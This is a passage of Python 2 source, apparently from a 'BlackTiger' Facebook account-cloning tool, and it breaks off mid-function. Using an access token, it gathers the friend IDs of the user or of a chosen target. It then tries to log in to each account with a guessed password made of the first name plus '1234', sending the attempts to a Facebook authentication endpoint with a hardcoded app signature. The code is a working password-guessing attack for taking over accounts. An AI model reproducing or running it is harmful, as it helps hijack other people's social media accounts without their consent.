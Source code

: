 def pilih_super():
	peak = raw_input("\n\033[1;91m^.^Choose an Option>>> \033[1;95m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;97m•◈•══════•◈•\033[1;91mBlackTiger\033[1;97m•◈•══════•◈•"
		jalan('\033[1;91mGetting IDs \033[1;91m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;95m[•◈•] \033[1;91mEnter ID\033[1;95m: \033[1;95m")
		print "\033[1;92m•◈•══════••◈•\033[1;91mBlackTiger\033[1;95m•◈•══════••◈•"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;91mName\033[1;95m:\033[1;95m "+op["name"]
		except KeyError:
			print"\x1b[1;91mID Not Found!"
			raw_input("\n\033[1;95m[\033[1;91mBack\033[1;95m]")
			super()
		print"\033[1;91mGetting IDs\033[1;97m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;36;40m[✺] Total IDs : \033[1;94m"+str(len(id))
	jalan('\033[1;34;40m[✺] Please Wait...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[✺] Cloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m        ❈     \x1b[1;91mTo Stop Process Press CTRL+Z \033[1;94m    ❈"
	print "   \033[1;92m●══════════════════◄►══════════════════●"

	jalan('           \033[1;91mAahil start cloning Wait...')
	print  "  \033[1;92m ●══════════════════◄►══════════════════●" 

	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:rana
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '1234'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q: